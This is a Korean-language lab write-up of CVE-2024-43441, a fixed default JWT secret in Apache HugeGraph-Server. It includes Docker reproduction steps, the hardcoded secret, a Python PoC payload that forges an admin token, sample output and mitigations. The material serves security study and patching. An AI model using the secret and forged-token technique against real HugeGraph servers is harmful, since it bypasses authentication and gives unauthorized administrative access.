

# CVE-2024-43441 - Apache HugeGraph-Server Fixed JWT Token Secret

작성자: 조예준

## 1. 취약점 요약

Apache HugeGraph는 Vertex와 Edge로 그래프 데이터를 저장하고 REST API로 조작할 수 있는 그래프 데이터베이스이다.

`CVE-2024-43441`은 Apache HugeGraph-Server의 인증 우회 취약점이다. HugeGraph-Server `1.0.0` 이상 `1.5.0` 미만 버전에서 Auth 모드의 JWT 서명 secret 기본값이 고정되어 있어, 운영자가 `rest-server.properties`에 별도 `auth.token_secret` 값을 설정하지 않은 경우 공격자가 관리자 JWT를 위조할 수 있다.

- 공식 영향 버전: Apache HugeGraph-Server `1.0.0` 이상 `1.5.0` 미만
- 취약 유형: CWE-302, Authentication Bypass by Assumed-Immutable Data
- CVSS v3.1: `9.8 Critical` (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`)
- 공식 참고: [NVD CVE-2024-43441](https://nvd.nist.gov/vuln/detail/CVE-2024-43441), [Apache oss-security advisory](https://www.openwall.com/lists/oss-security/2024/12/24/2)
- 취약 기본 secret 확인: [HugeGraph 1.3.0 AuthOptions.java](https://github.com/apache/hugegraph/blob/1.3.0/hugegraph-server/hugegraph-core/src/main/java/org/apache/hugegraph/config/AuthOptions.java)

## 2. 환경 구성

이 실습은 로컬 Docker 환경의 `127.0.0.1:8080`에만 노출되도록 구성했다.

| 항목 | 값 |
| --- | --- |
| 대상 제품 | Apache HugeGraph-Server |
| 취약 버전 | `1.3.0` |
| 실행 방식 | `docker compose` |
| 인증 모드 | `StandardAuthenticator` |
| 취약 기본 secret | `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg` |
| 컨테이너 포트 | `127.0.0.1:8080 -> 8080` |

`Dockerfile`은 외부 HugeGraph 이미지를 그대로 사용하지 않고, Apache archive의 공식 `apache-hugegraph-incubating-1.3.0.tar.gz` 바이너리를 직접 내려받아 SHA512 검증 후 로컬 이미지를 빌드한다.

## 3. 취약 조건

다음 조건이 만족되면 취약점이 재현된다.

1. HugeGraph-Server 버전이 `1.0.0 <= version < 1.5.0`이다.
2. `StandardAuthenticator` 기반 Auth 모드가 활성화되어 있다.
3. `auth.token_secret`을 별도로 설정하지 않아 취약 기본값이 사용된다.
4. 공격자가 HugeGraph REST API에 접근할 수 있다.

## 4. 재현 절차

깨끗한 환경에서 아래 명령만 순서대로 실행하면 된다.

```bash
docker compose up --build -d
python poc.py
docker compose down -v
```

서버가 아직 올라오는 중이면 `poc.py`가 연결 실패를 출력할 수 있다. 이 경우 `docker compose ps`에서 `healthy` 상태를 확인한 뒤 다시 실행한다.

## 5. PoC 코드

전체 PoC는 [poc.py](./poc.py)에 포함되어 있다. 핵심은 취약 버전의 고정 secret으로 `user_name=admin` 클레임을 가진 HS256 JWT를 직접 만드는 것이다.

```python
SECRET = "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg"
payload = {
    "user_name": "admin",
    "user_id": "forged-by-cve-2024-43441-poc",
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600,
}
```

PoC는 먼저 인증 없는 요청이 거부되는지 확인한 뒤, 위조한 Bearer 토큰으로 `/graphs/hugegraph/auth/verify`와 `/graphs/hugegraph/auth/users`에 접근한다.

## 6. 실행 결과

성공 시 아래와 같이 인증 없는 요청은 거부되고, 위조 JWT는 `admin` 사용자로 인정된다.

```text
====================================================================
CVE-2024-43441 PoC - Apache HugeGraph JWT Secret
====================================================================

[1] Target
    URL       : http://127.0.0.1:8080

[2] Unauthenticated request
    Request   : GET /graphs/hugegraph/auth/verify
    Response  : HTTP 401 (authentication required)

[3] Forged admin JWT
    user_name : admin
    algorithm : HS256
    token     : eyJhbGciOiJIUzI1NiIsInR5cCI6Ik...<실행마다 달라짐>

[4] Token verification
    Request   : GET /graphs/hugegraph/auth/verify
    Response  : HTTP 200
    user_name : admin
    user_id   : -30:admin

[5] Admin API access
    Request   : GET /graphs/hugegraph/auth/users?limit=10
    Response  : HTTP 200
    Users     : ['admin']

[RESULT] VULNERABLE
         Forged JWT was accepted as admin.
```



## 7. 대응 방안

1. Apache HugeGraph-Server를 `1.5.0` 이상으로 업그레이드한다.
2. 업그레이드 전 임시 대응으로 `conf/rest-server.properties`에 서버별 고유 `auth.token_secret`을 설정한다.
3. 기존 토큰을 폐기하고 관리자 비밀번호 및 관련 인증 정보를 교체한다.
4. HugeGraph REST API를 외부에 직접 노출하지 않고, 방화벽/IP allowlist/프록시 인증을 함께 적용한다.

